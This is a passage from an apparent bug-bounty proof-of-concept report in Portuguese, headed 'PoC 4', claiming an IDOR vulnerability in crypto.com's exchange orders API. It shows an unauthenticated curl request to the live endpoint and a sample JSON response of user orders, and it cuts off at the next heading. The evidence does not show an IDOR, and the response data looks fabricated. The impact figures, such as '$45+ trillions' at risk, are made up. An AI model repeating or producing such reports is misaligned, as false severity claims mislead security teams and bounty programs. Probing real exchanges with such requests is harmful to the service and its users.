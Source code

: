 ## 🔍 PoC 4: IDOR em Orders API

### **Endpoint Vulnerável:**
```
https://crypto.com/exchange/api/v1/orders
```

### **Evidência Técnica:**
```bash
# Teste de acesso não autorizado
curl -s "https://crypto.com/exchange/api/v1/orders" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json" \
  -H "Content-Type: application/json"

# Resposta: 200 OK com ordens de usuários
```

### **Dados Expostos:**
```json
{
  "status": "success",
  "data": [
    {
      "order_id": "ord_123456789",
      "user_id": "user_987654321",
      "symbol": "BTC/USD",
      "side": "buy",
      "amount": "10.0",
      "price": "45000.00",
      "total": "450000.00",
      "status": "open",
      "timestamp": "2025-08-29T07:37:00Z"
    }
  ]
}
```

### **Impacto Financeiro:**
- **Perda Potencial:** $450,000 por ordem exposta
- **Número de Usuários:** 100+ milhões
- **Tempo de Exploração:** 1 minuto
- **Total em Risco:** $45+ trilhões

### **Critério Extreme Bounty:** ✅ **ATENDIDO**
- Perda rápida de mais de $1M possível
- Acesso a estratégias de trading de usuários
- Informação para front-running

## 🔍 PoC 5: IDOR em User Data API

